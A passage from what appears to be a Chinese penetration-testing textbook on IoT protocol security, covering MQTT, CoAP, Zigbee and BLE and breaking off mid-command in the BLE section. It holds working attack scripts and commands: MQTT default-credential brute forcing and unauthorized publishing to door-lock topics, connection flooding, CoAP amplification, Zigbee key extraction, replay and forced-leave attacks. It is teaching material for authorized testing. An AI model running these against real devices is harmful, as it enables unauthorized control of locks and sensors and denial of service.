

## 22.2 IoT通信协议安全测试

IoT设备的通信协议是安全攻击的首要切入点。与传统IT系统以TCP/IP为主不同，IoT环境同时存在MQTT、CoAP、Zigbee、BLE、LoRaWAN、Thread等多种协议，每种协议的安全机制、攻击面和测试方法截然不同。本节从渗透测试人员的视角出发，按照**协议识别→信息收集→漏洞扫描→漏洞验证→深度利用→报告输出**的标准化流程，逐一演示每种主流协议的安全测试方法。

### 测试环境搭建

在开始任何协议安全测试之前，需要搭建专用的测试环境，避免对生产网络造成影响。

```bash
# === 基础工具安装 ===
# 网络协议分析三件套
sudo apt install wireshark tshark nmap -y

# MQTT测试工具链
sudo apt install mosquitto mosquitto-clients -y
pip install paho-mqtt mqtt-pwn  # mqtt-pwn: 专用MQTT渗透框架
npm install -g mqtt-packet       # MQTT数据包解析库

# CoAP测试工具
pip install aiocoap
npm install -g coap-cli

# Zigbee测试工具（需适配器硬件）
pip install killerbee

# BLE测试工具
sudo apt install bluez bluez-hcidump -y
pip install bluepy bleak
git clone https://github.com/nccgroup/Sniffle.git  # BLE嗅探

# === 专用渗透框架 ===
# bettercap（网络层中间人+BLE）
sudo apt install bettercap -y

# IoT漏洞扫描器
pip install halberd  # HTTP/CoAP扫描
```

### 测试工具硬件选型

IoT协议测试常需要专用硬件适配器，以下是各协议推荐的嗅探/注入设备：

| 协议 | 推荐硬件 | 价格区间 | 功能说明 |
|------|---------|---------|---------|
| Zigbee | KillerBee (Atmel RZ Raven) | $30-80 | 嗅探、注入、密钥提取 |
| Zigbee | TI CC2531 USB Dongle | $10-25 | 低成本嗅探方案 |
| Zigbee | ApiMote v4 | $50-100 | KillerBee兼容，性能更优 |
| BLE | Ubertooth One | $120-150 | BLE嗅探、链路层分析 |
| BLE | nRF52840 Dongle | $20-40 | Sniffle嗅探方案，性价比高 |
| BLE | ESP32 | $5-15 | 开源BLE扫描/模拟 |
| LoRa | RTL-SDR + 868/915MHz天线 | $25-50 | 低频射频信号捕获 |
| Sub-GHz | Flipper Zero | $170 | 多协议射频工具（含Sub-GHz） |
| 统一 | HackRF One | $300-350 | SDR平台，覆盖所有射频协议 |

```bash
# === 硬件验证 ===
# 检查USB串口设备是否正确识别
ls /dev/ttyUSB* /dev/ttyACM*

# KillerBee适配器验证
zbfind -r /dev/ttyUSB0   # 应能扫描到Zigbee设备

# Ubertooth One验证
ubertooth-util -v        # 应返回固件版本信息

# RTL-SDR验证
rtl_test -t              # 检测RTL-SDR设备
```

---

### 22.2.1 MQTT协议安全测试

MQTT是IoT领域使用最广泛的消息协议，其发布/订阅模式和Broker集中式架构决定了独特的攻击面：Broker配置不当、主题权限缺失、传输未加密。

#### 第一步：Broker识别与信息收集

```bash
# === 端口扫描 ===
# MQTT标准端口: 1883(明文), 8883(TLS)
# nmap服务识别
nmap -sT -p 1883,8883,9001 target-range -sV --script mqtt-subscribe

# 批量扫描内网所有MQTT Broker
nmap -p 1883,8883 192.168.1.0/24 -oG mqtt_scan.gnmap
grep "1883/open" mqtt_scan.gnmap | awk '{print $2}'

# === 协议指纹识别 ===
# 使用tshark分析捕获的MQTT流量
tshark -r capture.pcap -Y "mqtt" -T fields \
  -e mqtt.type \
  -e mqtt.clientid \
  -e mqtt.username \
  -e mqtt.topic

# 使用Wireshark过滤器
# mqtt                          — 所有MQTT流量
# mqtt.type == 1                — CONNECT报文（含认证信息）
# mqtt.type == 8                — SUBSCRIBE报文（主题枚举线索）
# mqtt.topic                    — 所有包含topic的报文

# === 设备指纹提取 ===
# 从MQTT报文中提取Client ID推断设备类型
# Client ID通常包含设备型号、固件版本等信息
# 例: "SonoffBasic-1234" → Sonoff Basic智能开关
#     "ShellyPlugS-A1B2" → Shelly Plug S智能插座
```

```python
#!/usr/bin/env python3
"""
mqtt_enumerator.py — MQTT Broker匿名连接测试与主题枚举
用途：检测Broker是否允许匿名访问，枚举可访问的主题
"""
import paho.mqtt.client as mqtt
import time
import sys
import json
from datetime import datetime

class MQTTEnumerator:
    def __init__(self, host, port=1883):
        self.host = host
        self.port = port
        self.topics = []
        self.messages = []
        self.client = mqtt.Client(client_id=f"enum_{int(time.time())}")
        self.client.on_connect = self._on_connect
        self.client.on_message = self._on_message
        self.client.on_subscribe = self._on_subscribe

    def _on_connect(self, client, userdata, flags, rc):
        """连接回调 — rc=0表示匿名连接成功（安全风险）"""
        if rc == 0:
            print(f"[+] 匿名连接成功！Broker: {self.host}:{self.port}")
            print(f"    返回码: {rc} (Connection Accepted)")
            # 尝试订阅通配符主题，枚举所有可用主题
            print("[*] 尝试订阅通配符主题 # ...")
            client.subscribe("#", qos=1)
            # 同时订阅带层级通配符的模式
            client.subscribe("+/+/+/+", qos=0)
            client.subscribe("+/+/+", qos=0)
        elif rc == 5:
            print(f"[-] 连接被拒绝: 认证失败 (rc=5)")
        else:
            print(f"[-] 连接失败: 返回码 {rc}")

    def _on_message(self, client, userdata, msg):
        """消息回调 — 记录所有捕获到的消息"""
        topic = msg.topic
        try:
            payload = msg.payload.decode("utf-8", errors="replace")
        except Exception:
            payload = f"<binary: {len(msg.payload)} bytes>"

        entry = {
            "topic": topic,
            "payload": payload[:500],  # 截断过长的payload
            "qos": msg.qos,
            "retain": msg.retain,
            "timestamp": datetime.now().isoformat()
        }
        self.messages.append(entry)

        if topic not in self.topics:
            self.topics.append(topic)
            print(f"[+] 发现新主题: {topic}")
            print(f"    Payload: {payload[:200]}")
        else:
            # 重复主题的消息仍然记录，但不打印
            pass

    def _on_subscribe(self, client, userdata, mid, granted_qos):
        print(f"[*] 订阅成功 (mid={mid}, qos={granted_qos})")

    def enumerate(self, duration=30):
        """执行枚举，持续监听指定时长（秒）"""
        print(f"[*] 连接到 {self.host}:{self.port}...")
        try:
            self.client.connect(self.host, self.port, keepalive=60)
        except Exception as e:
            print(f"[!] 连接失败: {e}")
            return

        self.client.loop_start()
        print(f"[*] 监听中，持续 {duration} 秒...")
        time.sleep(duration)
        self.client.loop_stop()
        self.client.disconnect()

        # 输出结果
        print(f"\n{'='*60}")
        print(f"枚举完成 — 共发现 {len(self.topics)} 个独立主题")
        print(f"捕获消息总数: {len(self.messages)}")
        print(f"{'='*60}")

        for t in self.topics:
            count = sum(1 for m in self.messages if m["topic"] == t)
            print(f"  {t} ({count} messages)")

        return self.topics, self.messages

    def export_report(self, filename="mqtt_enum_report.json"):
        """导出JSON格式的枚举报告"""
        report = {
            "target": f"{self.host}:{self.port}",
            "anonymous_access": True,
            "total_topics": len(self.topics),
            "total_messages": len(self.messages),
            "topics": self.topics,
            "messages": self.messages,
            "timestamp": datetime.now().isoformat()
        }
        with open(filename, "w") as f:
            json.dump(report, f, indent=2, ensure_ascii=False)
        print(f"[+] 报告已保存: {filename}")

if __name__ == "__main__":
    host = sys.argv[1] if len(sys.argv) > 1 else "192.168.1.100"
    port = int(sys.argv[2]) if len(sys.argv) > 2 else 1883
    duration = int(sys.argv[3]) if len(sys.argv) > 3 else 30

    enumerator = MQTTEnumerator(host, port)
    enumerator.enumerate(duration)
    enumerator.export_report()
```

#### 第二步：认证与授权测试

```python
#!/usr/bin/env python3
"""
mqtt_auth_test.py — MQTT认证机制全面测试
测试项：匿名访问、弱口令爆破、凭据泄露检测
"""
import paho.mqtt.client as mqtt
import itertools
import string
import time

def test_anonymous_access(host, port=1883):
    """测试Broker是否允许匿名连接"""
    result = {"anonymous": False}
    client = mqtt.Client(client_id="anon_test")

    def on_connect(client, userdata, flags, rc):
        result["anonymous"] = (rc == 0)
        if rc == 0:
            print(f"[!] 高危: Broker允许匿名连接 (rc=0)")
        else:
            print(f"[+] 安全: 匿名连接被拒绝 (rc={rc})")

    client.on_connect = on_connect
    try:
        client.connect(host, port, 5)
        client.loop_start()
        time.sleep(3)
        client.loop_stop()
        client.disconnect()
    except Exception as e:
        print(f"[*] 连接异常: {e}")
    return result

def test_default_credentials(host, port=1883):
    """使用常见默认凭据测试Broker"""
    # IoT设备常见默认用户名密码对
    default_creds = [
        ("admin", "admin"), ("admin", "password"), ("root", "root"),
        ("root", "password"), ("root", "admin"), ("mqtt", "mqtt"),
        ("user", "user"), ("test", "test"), ("guest", "guest"),
        ("pi", "raspberry"), ("admin", "1234"), ("admin", "12345"),
        ("admin", "admin123"), ("device", "device"), ("sensor", "sensor"),
        ("", ""),  # 空用户名空密码
    ]

    results = []
    for username, password in default_creds:
        client = mqtt.Client(client_id=f"cred_{int(time.time())}")
        client.username_pw_set(username, password)

        connected = {"status": False}

        def on_connect(client, userdata, flags, rc):
            connected["status"] = (rc == 0)

        client.on_connect = on_connect
        try:
            client.connect(host, port, 3)
            client.loop_start()
            time.sleep(2)
            client.loop_stop()
            client.disconnect()
        except Exception:
            pass

        status = "✓ 成功" if connected["status"] else "✗ 失败"
        if connected["status"]:
            print(f"[!] 凭据有效: {username}:{password} — {status}")
        results.append({
            "username": username, "password": password,
            "success": connected["status"]
        })

    valid = [r for r in results if r["success"]]
    print(f"\n[*] 测试完成: {len(default_creds)} 组凭据, {len(valid)} 组有效")
    return results

def test_topic_acl_bypass(host, port=1883, username="test_user", password="test_pass"):
    """测试主题级别的ACL是否有效"""
    # 检查是否能越权写入其他设备的主题
    sensitive_topics = [
        "devices/lock/door1/command",
        "devices/lock/door1/unlock",
        "admin/config",
        "system/reboot",
        "firmware/update",
        "sensors/#",
        "#",
    ]

    results = []
    client = mqtt.Client(client_id="acl_test")
    client.username_pw_set(username, password)

    def on_connect(client, userdata, flags, rc):
        if rc == 0:
            print(f"[+] 以 {username} 身份连接成功")
            for topic in sensitive_topics:
                try:
                    mid = client.publish(topic, "test_payload", qos=1)
                    print(f"  → 发布到 {topic}: {'成功' if mid else '失败'}")
                except Exception as e:
                    print(f"  → 发布到 {topic}: 异常 {e}")
        else:
            print(f"[-] 连接失败 (rc={rc})")

    client.on_connect = on_connect
    try:
        client.connect(host, port, 5)
        client.loop_start()
        time.sleep(5)
        client.loop_stop()
        client.disconnect()
    except Exception as e:
        print(f"[!] 异常: {e}")
```

#### 第三步：TLS/加密测试

```bash
# === TLS配置审计 ===
# 检测TLS版本和密码套件
nmap -sT -p 8883 --script ssl-enum-ciphers target-broker

# 使用openssl测试TLS握手
openssl s_client -connect target-broker:8883 -showcerts
openssl s_client -connect target-broker:8883 -tls1_2  # 仅TLS 1.2
openssl s_client -connect target-broker:8883 -tls1_3  # 仅TLS 1.3

# 测试是否接受不安全的TLS版本
openssl s_client -connect target-broker:8883 -tls1    # TLS 1.0（应被拒绝）
openssl s_client -connect target-broker:8883 -tls1_1  # TLS 1.1（应被拒绝）

# === 流量嗅探验证 ===
# 如果Broker同时监听1883和8883，测试是否强制TLS
# 方式1: 尝试明文连接
mosquitto_pub -h target-broker -p 1883 -t "test" -m "plaintext_test"
# 如果成功发送 → 明文端口未关闭，存在风险

# 方式2: tshark验证TLS覆盖
tshark -i eth0 -f "tcp port 1883 or tcp port 8883" \
  -Y "mqtt or tls.handshake" \
  -T fields -e tcp.port -e mqtt.type -e tls.handshake.type
# 1883端口不应有任何MQTT明文流量
```

```python
#!/usr/bin/env python3
"""
mqtt_tls_audit.py — MQTT Broker TLS配置深度审计
"""
import ssl
import socket
import json

class MqttTlsAudit:
    """检测MQTT Broker的TLS配置是否符合安全标准"""

    # 不安全的密码套件（应被禁用）
    INSECURE_CIPHERS = [
        "RC4", "DES", "3DES", "MD5", "NULL", "EXPORT",
        "DES-CBC3-SHA", "RC4-SHA", "AES128-SHA",
        "DES-CBC-SHA", "EDH-RSA-DES-CBC-SHA",
    ]

    def __init__(self, host, port=8883):
        self.host = host
        self.port = port
        self.results = {}

    def check_tls_version(self):
        """测试各TLS版本的支持情况"""
        print(f"\n[*] TLS版本测试 — {self.host}:{self.port}")
        for version_name, method in [
            ("TLS 1.0", ssl.PROTOCOL_TLS),
            ("TLS 1.1", ssl.PROTOCOL_TLS),
            ("TLS 1.2", ssl.PROTOCOL_TLS),
            ("TLS 1.3", ssl.PROTOCOL_TLS),
        ]:
            try:
                ctx = ssl.SSLContext(method)
                ctx.minimum_version = getattr(ssl.TLSVersion, version_name.replace(" ", ""), ssl.TLSVersion.TLSv1)
                with ctx.wrap_socket(socket.socket(), server_hostname=self.host) as s:
                    s.connect((self.host, self.port))
                    actual = s.version()
                    if actual:
                        print(f"  [!] {version_name}: 已启用 (实际版本: {actual})")
                    self.results[version_name] = True
            except ssl.SSLError:
                print(f"  [+] {version_name}: 已禁用")
                self.results[version_name] = False
            except Exception:
                print(f"  [?] {version_name}: 无法测试")
                self.results[version_name] = None

    def check_cipher_suites(self):
        """枚举所有支持的密码套件"""
        print(f"\n[*] 密码套件枚举 — {self.host}:{self.port}")
        try:
            ctx = ssl.SSLContext(ssl.PROTOCOL_TLS_CLIENT)
            ctx.check_hostname = False
            ctx.verify_mode = ssl.CERT_NONE
            with ctx.wrap_socket(socket.socket(), server_hostname=self.host) as s:
                s.connect((self.host, self.port))
                ciphers = s.cipher()
                print(f"  协商密码套件: {ciphers[0]}")
                print(f"  TLS版本: {ciphers[1]}")
                print(f"  密钥交换: {ciphers[2]}")
                self.results["cipher"] = ciphers[0]
        except Exception as e:
            print(f"  [!] 无法获取密码套件: {e}")

    def check_certificate(self):
        """检查服务器证书"""
        print(f"\n[*] 证书检查 — {self.host}:{self.port}")
        try:
            ctx = ssl.SSLContext(ssl.PROTOCOL_TLS_CLIENT)
            ctx.check_hostname = False
            ctx.verify_mode = ssl.CERT_NONE
            with ctx.wrap_socket(socket.socket(), server_hostname=self.host) as s:
                s.connect((self.host, self.port))
                cert = s.getpeercert(binary_form=True)
                # 使用openssl解析（更详细）
                import subprocess
                proc = subprocess.run(
                    ["openssl", "x509", "-inform", "DER", "-text", "-noout"],
                    input=cert, capture_output=True, timeout=5
                )
                text = proc.stdout.decode(errors="replace")
                for line in text.split("\n"):
                    line = line.strip()
                    if any(k in line for k in ["Issuer:", "Subject:", "Not Before:", "Not After:", "Signature Algorithm:"]):
                        print(f"  {line}")
                self.results["certificate"] = text[:200]
        except Exception as e:
            print(f"  [!] 证书检查失败: {e}")

    def run_all(self):
        """执行所有TLS审计项"""
        self.check_tls_version()
        self.check_cipher_suites()
        self.check_certificate()
        print(f"\n{'='*60}")
        print("TLS审计完成")
        insecure_versions = [k for k, v in self.results.items() if v is True and "1.0" in k or "1.1" in k]
        if insecure_versions:
            print(f"[!] 风险: 仍支持不安全的TLS版本: {insecure_versions}")
        print(f"{'='*60}")
        return self.results

if __name__ == "__main__":
    import sys
    host = sys.argv[1] if len(sys.argv) > 1 else "192.168.1.100"
    audit = MqttTlsAudit(host, 8883)
    audit.run_all()
```

#### 第四步：高级MQTT渗透（mqtt-pwn）

```bash
# mqtt-pwn是Akamai开发的专业MQTT渗透框架
# 安装
git clone https://github.com/akamai-threat-research/mqtt-pwn.git
cd mqtt-pwn
docker-compose up -d    # 通过Docker启动
# 或本地安装:
pip install -r requirements.txt

# === 连接到目标Broker ===
python3 mqtt_pwn.py
mqtt_pwn> connect --host 192.168.1.100 --port 1883

# === 主题枚举 ===
mqtt_pwn> enum_topics
# 使用通配符订阅和主动扫描枚举主题树

# === 数据转储 ===
mqtt_pwn> dump_all
# 持续监听并保存所有消息到本地数据库

# === 凭据暴力破解 ===
mqtt_pwn> brute_force
# 使用内置字典爆破Broker凭据

# === 连接耗尽测试（DoS验证） ===
mqtt_pwn> flood_connections --count 1000
# 验证Broker在大量连接时的行为
```

#### MQTT安全测试检查清单

| 测试项 | 测试方法 | 预期结果 | 风险等级 |
|-------|---------|---------|---------|
| 匿名访问 | 无凭据连接 | 连接被拒绝 | 严重 |
| 弱口令 | 默认凭据测试 | 均被拒绝 | 严重 |
| TLS传输 | 端口1883检测 | 不接受明文连接 | 高危 |
| TLS版本 | openssl版本测试 | 仅TLS 1.2+ | 高危 |
| ACL权限 | 越权发布/订阅 | 非授权主题被拒绝 | 高危 |
| 遗嘱消息 | 发送Will Message | 配置了合理的遗嘱策略 | 中等 |
| Client ID | 枚举分析 | 不泄露敏感设备信息 | 中等 |
| 消息大小 | 发送超大payload | 被限制和拒绝 | 中等 |
| 连接数限制 | 大量并发连接 | 超过后拒绝新连接 | 中等 |
| 日志审计 | 检查Broker日志 | 记录连接和认证事件 | 低危 |

---

### 22.2.2 CoAP协议安全测试

CoAP基于UDP，天然适合资源受限设备，但也因此面临UDP协议固有的安全挑战：源地址可伪造、无连接状态、容易被滥用为DDoS放大器。

#### 资源发现与服务枚举

CoAP定义了标准的资源发现协议（RFC 6690），所有符合规范的设备都在 `/.well-known/core` 暴露资源列表。这既是功能特性，也是攻击者的首要信息收集目标。

```bash
# === 标准资源发现 ===
# 使用coap-cli发现目标资源
coap get coap://target-ip/.well-known/core
# 返回格式示例:
# </sensors/temp>;ct=0;rt="temperature",
# </sensors/humidity>;ct=0;rt="humidity",
# </actuators/led>;ct=0;rt="led-control";if="w"

# 使用libcoap客户端
coap-client -m get "coap://target-ip/.well-known/core"

# === 端口扫描 ===
# CoAP默认端口: 5683(UDP明文), 5684(UDP DTLS)
nmap -sU -p 5683,5684 target-range -sV

# 使用masscan快速扫描UDP端口（比nmap快几个数量级）
masscan 192.168.1.0/24 -pU:5683,5684 --rate=1000

# === DTLS指纹检测 ===
# 检测CoAP服务器是否支持DTLS
nmap -sU -p 5684 target --script coap-discover
```

```python
#!/usr/bin/env python3
"""
coap_scanner.py — CoAP设备深度扫描与漏洞探测
"""
import asyncio
from aiocoap import Context, Message, GET, PUT, POST, DELETE

class CoAPScanner:
    def __init__(self, target_url):
        self.target = target_url.rstrip("/")
        self.results = {}

    async def discover_resources(self):
        """标准资源发现（RFC 6690）"""
        print(f"[*] 资源发现 — {self.target}")
        try:
            context = await Context.create_client_context()
            request = Message(
                code=GET,
                uri=f"{self.target}/.well-known/core",
                accept=40  # application/link-format
            )
            response = await context.request(request).response
            resources = response.payload.decode("utf-8", errors="replace")
            print(f"[+] 发现资源:")
            for res in resources.strip().split(","):
                print(f"    {res.strip()}")
            self.results["resources"] = resources
            return resources
        except Exception as e:
            print(f"[-] 资源发现失败: {e}")
            return None

    async def test_method_access(self, resource_path):
        """测试每个HTTP方法的访问控制"""
        methods = {
            "GET": GET,
            "PUT": PUT,
            "POST": POST,
            "DELETE": DELETE,
        }
        results = {}
        for name, code in methods.items():
            try:
                context = await Context.create_client_context()
                payload = b"test_data" if name in ("PUT", "POST") else None
                request = Message(
                    code=code,
                    uri=f"{self.target}{resource_path}",
                    payload=payload
                )
                response = await context.request(request).response
                results[name] = {
                    "status": response.code,
                    "success": str(response.code).startswith("2."),
                    "payload_len": len(response.payload)
                }
                print(f"  {name} → {response.code}")
            except Exception as e:
                results[name] = {"error": str(e)}
                print(f"  {name} → 异常: {e}")
        return results

    async def test_observe(self, resource_path):
        """测试Observe机制是否被保护"""
        print(f"[*] 测试Observe — {resource_path}")
        try:
            context = await Context.create_client_context()
            request = Message(
                code=GET,
                uri=f"{self.target}{resource_path}",
                observe=0  # 注册观察
            )
            pr = context.request(request)

            # 接收3次通知
            for i in range(3):
                try:
                    response = await asyncio.wait_for(pr.response, timeout=5)
                    print(f"  通知#{i+1}: {response.code} — {response.payload[:100]}")
                except asyncio.TimeoutError:
                    print(f"  等待超时")
                    break
            return True
        except Exception as e:
            print(f"  Observe测试失败: {e}")
            return False

    async def run(self):
        """执行完整扫描"""
        resources = await self.discover_resources()
        if resources:
            # 解析资源路径并测试
            import re
            paths = re.findall(r'<([^>]+)>', resources)
            for path in paths[:10]:  # 限制前10个资源
                print(f"\n[*] 测试资源: {path}")
                await self.test_method_access(path)

if __name__ == "__main__":
    import sys
    target = sys.argv[1] if len(sys.argv) > 1 else "coap://192.168.1.100"
    scanner = CoAPScanner(target)
    asyncio.run(scanner.run())
```

#### CoAP DDoS放大攻击验证

```bash
# === 放大系数测量 ===
# CoAP请求通常很小（~10字节），但响应可能很大（~500-4000字节）
# 放大系数 = 响应大小 / 请求大小

# 步骤1: 发送一个标准CoAP GET请求，测量响应大小
coap-client -m get -o /tmp/coap_response coap://target/.well-known/core
wc -c /tmp/coap_response  # 响应大小

# 步骤2: 使用scapy模拟伪造源地址的CoAP请求
python3 << 'EOF'
from scapy.all import *
import struct

# 构造CoAP GET请求
coap_version = 1
coap_type = 0    # CON
coap_tkl = 0     # Token length
coap_code = 1    # GET
coap_mid = 12345  # Message ID

# 固定头 (4字节)
header = struct.pack("BBH",
    (coap_version << 6) | (coap_type << 4) | coap_tkl,
    coap_code,
    coap_mid
)
# URI-Path Option (Option Number 11)
# 内容: /.well-known/core → 分两段: ".well-known", "core"
option1 = b'\xb8\x0awell-known'  # 11 << 4 | 8 (length)
option2 = b'\x44\x04core'        # 4 << 4 | 4 (length)

payload = header + option1 + option2

# 注意: 此代码仅用于教育目的，在授权测试中使用
# 在真实场景中需配置正确的目标IP和伪造的源IP
print(f"CoAP请求大小: {len(payload)} 字节")
print(f"典型CoAP响应大小: 100-4000 字节")
print(f"放大系数: ~{4000/len(payload):.0f}x")
EOF
```

#### CoAP安全测试检查清单

| 测试项 | 测试方法 | 预期安全结果 |
|-------|---------|------------|
| 资源发现限制 | 访问/.well-known/core | 仅返回必要资源 |
| DTLS启用 | 尝试明文连接 | 明文请求被拒绝 |
| DTLS安全模式 | 检查是否使用NoSec | 应使用Certificate模式 |
| OSCORE | 检查是否支持对象安全 | 代理场景应启用 |
| PUT/DELETE保护 | 未认证写入/删除 | 应返回4.01/4.03 |
| Observe保护 | 认证检查 | 未认证请求被拒绝 |
| 速率限制 | 高频请求 | 超限后返回4.29 |
| 放大防护 | UDP流量审计 | 响应速率受控 |
| Block传输 | 发送超大payload | 正确分块处理 |

---

### 22.2.3 Zigbee协议安全测试

Zigbee运行在IEEE 802.15.4物理层上，使用2.4GHz频段的11-26信道。其安全测试完全不同于TCP/IP协议——需要专用硬件适配器在射频层进行嗅探和注入。

#### 硬件准备与固件刷写

```bash
# === KillerBee框架安装 ===
pip install killerbee

# === CC2531 USB Dongle刷写KillerBee固件 ===
# CC2531是最廉价的Zigbee嗅探方案（$5-10）
# 步骤1: 安装cc-tool（CC2531编程器）
sudo apt install cc-tool -y

# 步骤2: 下载KillerBee固件
git clone https://github.com/riverloopsec/killerbee.git
cd killerbee/firmware

# 步骤3: 连接CC2531 Dongle（需要CC Debugger或自制适配器）
# 按住Dongle上的按钮，插入USB，进入编程模式
cc_tool -w cc2531_killerbee_firmware.hex

# 步骤4: 验证安装
zbfind -r /dev/ttyACM0    # 应能发现Zigbee网络
```

#### Zigbee流量嗅探与分析

```bash
# === 信道嗅探 ===
# Zigbee使用信道11-26（2.4GHz频段），需要确定目标网络使用的信道
# 方式1: 扫描所有信道
for ch in $(seq 11 26); do
    echo "扫描信道 $ch..."
    timeout 3 zbdump -r /dev/ttyACM0 -c $ch -w scan_ch${ch}.pcap 2>/dev/null
done

# 方式2: 使用CC2531 Dongle（更稳定）
zbdump -r /dev/ttyUSB0 -c 15 -f 2480 -w zigbee_capture.pcap
# -r: 串口设备
# -c: 信道号
# -f: 频率(MHz)，11对应2405MHz，15对应2425MHz
# -w: 输出pcap文件

# === 实时分析 ===
# 使用zbwireshark实时查看Zigbee帧
zbwireshark -r /dev/ttyUSB0 -c 15
# Wireshark过滤器:
# zigbee                      — 所有Zigbee帧
# zigbee.security              — 安全相关帧
# zigbee_nwk.cmd == 0x01       — Network Leave Request
# zigbee_nwk.cmd == 0x03       — Network Leave Request (强制)
# zigbee_aps簇ID == 0x0016     — 入网请求 (Device Announcement)

# === 帧内容深度分析 ===
# 提取Zigbee网络参数
tshark -r zigbee_capture.pcap -Y "zigbee" -T fields \
  -e zigbee_nwk.src \
  -e zigbee_nwk.dst \
  -e zigbee_nwk.cmd \
  -e zigbee_aps.clusterId \
  -e _ws.col.Info

# 使用Python分析pcap
python3 << 'PYEOF'
from scapy.all import *
from scapy.layers.zigbee import *

packets = rdpcap("zigbee_capture.pcap")
print(f"总帧数: {len(packets)}")

nwk_frames = [p for p in packets if ZigbeeNWK in p]
print(f"网络层帧: {len(nwk_frames)}")

for pkt in nwk_frames[:20]:
    nwk = pkt[ZigbeeNWK]
    print(f"  src={nwk.src}, dst={nwk.dst}, cmd={nwk.cmd}, "
          f"security={nwk.security_present}")
PYEOF
```

#### Zigbee密钥提取与入网嗅探

```bash
# === 捕获设备入网过程（关键攻击窗口） ===
# 设备入网时，Trust Center会分发Network Key
# 对于Zigbee 1.2及更早版本，密钥可能以明文或弱加密传输

# 步骤1: 启动嗅探，等待设备入网
zbdump -r /dev/ttyUSB0 -c 15 -w join_capture.pcap

# 步骤2: 触发设备入网（物理按键或重置设备）

# 步骤3: 提取密钥
zbkey -f join_capture.pcap
# 如果成功输出类似:
# Network Key: 01:03:05:07:09:0b:0d:0f:11:13:15:17:19:1b:1d:1f

# 使用zbgoodfind定位密钥交换帧
zbgoodfind -r join_capture.pcap -t key_exchange

# === 使用默认信任中心密钥解密 ===
# Zigbee全球默认信任中心Link Key（所有使用默认密钥的设备通用）:
# 5A:69:67:42:65:65:41:6C:6C:69:61:6E:63:65:30:39
# ("ZigBeeAlliance09")

# 在Wireshark中手动配置默认密钥:
# Edit → Preferences → Protocols → Zigbee Security
# → 勾选 "Decode Security Headers"
# → 添加 Default Trust Center Link Key

# 提取Application Link Key（如果存在）
zbkey -f join_capture.pcap -t link_key
```

#### Zigbee注入攻击

```bash
# === 重放攻击 ===
# 捕获目标设备的控制命令帧，然后重放

# 步骤1: 捕获正常操作帧（如"开灯"命令）
zbdump -r /dev/ttyUSB0 -c 15 -w commands.pcap
# 手动触发目标设备操作（如按开关）

# 步骤2: 分析捕获的帧，定位控制命令
tshark -r commands.pcap -Y "zigbee_aps" -T fields \
  -e zigbee_nwk.src -e zigbee_aps.dst \
  -e zigbee_aps.clusterId -e zigbee_aps.cmd \
  -e data.len

# 步骤3: 重放特定帧
zbreplay -r commands.pcap -i /dev/ttyUSB0 -c 15
# 在Wireshark中找到目标帧号后可选择性重放:
# zbreplay -r commands.pcap -i /dev/ttyUSB0 -c 15 --start-frame 42 --end-frame 42

# === 强制离网攻击（Zigbee Killer） ===
# 向目标设备发送伪造的Leave Request，强制其断开网络
# 使用KillerBee的zbleave命令
zbleave -i /dev/ttyUSB0 -c 15 -d TARGET_EUI64

# 效果: 目标设备被踢出网络，需要重新入网
# 风险: 重新入网过程中可能被中间人攻击

# === 设备模拟/欺骗 ===
# 伪造为合法设备，向Coordinator发送恶意数据
# 使用KillerBee的zbfind发现网络中的合法设备地址
zbfind -r /dev/ttyUSB0

# 使用Python注入自定义Zigbee帧
python3 << 'PYEOF'
from killerbee import *

kb = KillerBee()
kb.set_channel(15)

# 构造Zigbee APS层数据帧
# 注意: 实际构造需要深入了解Zigbee帧格式
# 这里仅展示框架
import struct

# APS层帧头
frame_control = 0x00  # 数据帧
dst_endpoint = 0x00   # APS层
cluster_id = 0x0006   # OnOff Cluster
profile_id = 0x0104   # Home Automation Profile

# OnOff命令
onoff_cmd = 0x01  # 0x00=Off, 0x01=On, 0x02=Toggle

aps_payload = struct.pack("<BHHB", dst_endpoint, cluster_id, profile_id, onoff_cmd)
# ... 发送帧需要更完整的帧构造
print("帧构造完成（需配合完整Zigbee帧头使用）")
kb.close()
PYEOF
```

---

### 22.2.4 BLE（蓝牙低功耗）安全测试

BLE设备数量庞大（智能手表、医疗设备、门锁、传感器），其安全测试涵盖从链路层到应用层的多个维度。

#### 设备发现与信息收集

```bash
# === 蓝牙设备扫描 ===
# 方式1: Linux原生工具
sudo hciconfig hci0 up
sudo hcitool lescan --duplicates
# 记录扫描到的MAC地址

# 方式2: bettercap（推荐，支持持续扫描和信号强度分析）
sudo bettercap -eval "ble.recon on"
# bettercap会持续输出发现的BLE设备，包含RSSI信号强度
# RSSI值可用于物理定位设备

# 方式3: btmgmt（BlueZ 5.x推荐）
sudo btmgmt le on
sudo btmgmt find

# === 蓝牙地址类型分析 ===
# BLE设备使用三种地址类型:
# 1. Public Address: 全球唯一的IEEE MAC地址
# 2. Static Random Address: 每次开机可能变化
# 3. Resolvable Private Address (RPA): 每15分钟轮换

# 使用tshark分析广播包中的地址类型
sudo tshark -i hci0 -f "ble" -Y "btle" \
  -T fields -e btle.advertising_header.random_address_flag \
  -e btle.advertising_header.pdu_type \
